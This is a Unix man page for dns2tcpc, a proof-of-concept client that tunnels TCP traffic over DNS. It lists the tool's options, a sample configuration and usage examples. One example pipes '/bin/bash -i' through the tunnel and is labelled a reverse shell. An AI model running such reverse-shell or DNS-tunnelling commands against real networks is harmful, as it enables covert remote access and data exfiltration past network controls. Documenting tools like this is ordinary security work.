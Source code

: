 .TH dns2tcpc 1

.SH NAME 
dns2tcpc \- A tunneling tool that encapsulate TCP traffic over DNS.

.SH SYNOPSIS 
.B dns2tcpc 
[
.B \-h
] [
.B \-c
] [
.B \-z 
.I domain zone
] [
.B \-d 
.I debug_level
] [
.B \-r 
.I resource
] [
.B \-k
.I key
] [
.B \-f 
.I config_file
] [
.B \-e 
.I command
] [
.B \-T
.I request type
] [
.B \-l
.I local_port
] [ 
.I server
] 
.br
.ad

.SH DESCRIPTION 
dns2tcpc is a network tool used to encapsulate TCP communications in
DNS. When connections are received on a specific port all TCP traffic is
sent to the remote dns2tcpd server and forwarded to a specific host and
port. Multiple connections are supported. 
.PP 
dns2tcpc was written for demonstration purposes.
.SH OPTIONS 
.TP
.BI -h
Help Menu
.TP
.BI -c
Enable DNS compression. When used, be sure that all relay and DNS server
support compression and really use it.
.TP
\fB\-z\fR \fBdomain zone\fR
Use this domain as endpoint.
.TP
\fB\-d\fR \fBdebug level\fR
Change debug level. Levels available are 1, 2 or 3.
.TP
\fB\-r\fR \fBresource\fR
Remote resource to access. 
.TP
\fB\-k\fR \fBkey\fR
Pre shared key used for authentication (identification).
.TP
\fB\-f\fR \fBconfig file\fR
Configuration file to use.
.TP
\fB\-T\fR \fBrequest type\fR
Request type to use. Actually only KEY and TXT requests are supported.
.TP
\fB\-e\fR \fBcommand\fR
Command to execute, I/O are redirected in the tunnel.
.TP
\fB\-l\fR \fBlocal_port\fR
Local port accepting incomming connections (or - for stdin on UNIX systems). 
.TP
\fB\-t\fR \fBconnection timeout\fR
Maximum DNS server's answer delay in seconds. A valid delay
is between 1 and 240 seconds. Default is 3.
.TP
\fBserver\fR
DNS server to use. The first entry in resolv.conf file will be choosen if the server is not specified.

.SH CONFIGURATION FILES
By default ${HOME}/.dns2tcprc is used if no configuration file is
specified. Here is an example :
.TP
.nf
.in 7
domain = dns2tcp.hsc.fr
resource = ssltunnel
local_port = 4430
enable_compression = 0
debug_level = 1
key = mykey
# DNS to use
server = ns.hsc.fr
.fi

.SH EXAMPLES
.PP 
.IP "\fB\f(CWdns2tcpc -k mykey -z dns2tcp.hsc.fr mydns\fP"
.IP
Ask the dns2tcp server to list available resources.
.IP 
.IP "\fB\f(CWssh -o 'ProxyCommand dns2tcpc -r ssh -l - -z dns2tcp.hsc.fr -k mykey mydns' myserver\fP"
.IP 
Use dns2tcp as a proxy command with ssh. We try to connect to the ssh resource with the key 'mykey' and the DNS mydns.
.IP 
.IP "\fB\f(CWdns2tcpc -r socat-resource -e '/bin/bash -i' -k mykey -z dns2tcp.hsc.fr mydns\fP"
.IP
Use dns2tcp as a reverse shell, the remote shell will appear on the socat-resource.
.IP 
.IP "\fB\f(CWdns2tcpc -d 1 -f /dev/null -r ssl-tunnel -l 2000 -k mykey  -T KEY -z dns2tcp.hsc.fr mydns\fP"
.IP
Do not use the default configuration file, bind local port 2000 and forward all the traffic on the remote ssl-tunnel resource, use the first debug level. Use KEY type DNS requests.
.IP
.SH AUTHORS
Olivier Dembour <olivier.dembour@hsc.fr>

.SH BUGS
This tool is a proof of concept.

.SH SEE ALSO
ssltunnel 

